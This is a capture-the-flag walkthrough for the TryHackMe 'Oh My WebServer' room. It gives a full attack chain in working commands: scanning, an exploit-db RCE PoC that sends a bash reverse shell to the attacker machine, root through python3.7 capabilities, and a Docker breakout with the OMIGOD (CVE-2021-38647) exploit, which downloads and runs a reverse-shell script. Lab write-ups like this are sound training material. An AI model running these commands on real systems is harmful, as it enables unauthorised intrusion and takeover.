 # Oh My WebServer

**Room Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/ohmyweb)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50383](https://www.exploit-db.com/raw/50383)

**Kali**

```
nc -lvnp 1337
```

**Kali**

```
wget https://www.exploit-db.com/raw/50383 -O poc.sh
chmod +x poc.sh
./poc.sh targets.txt /bin/bash "bash -c 'bash -i >& /dev/tcp/$KALI/1337 0>&1'"
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>





## Privileges Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
getcap -r / 2>/dev/null
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



#### Nmap

Scanned the gateway&#x20;

**Kali**

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/nmap -O nmap
chmod +x nmap
./nmap -p- 172.17.0.1 --min-rate=700 -vvv
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



## Privileges Escalation / Breakout of Docker



**shell.sh**

```
#!/bin/bash

sh -i >& /dev/tcp/$KALI/1338 0>&1
```

**Kali**

```
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/omigod.py -O omigod.py
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
python3 omigod.py -t 172.17.0.1 -c "curl http://$KALI:81/shell.sh -O shell.sh"
python3 omigod.py -t 172.17.0.1 -c "chmod +x shell.sh"
python3 omigod.py -t 172.17.0.1 -c "./shell.sh"
```

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>





























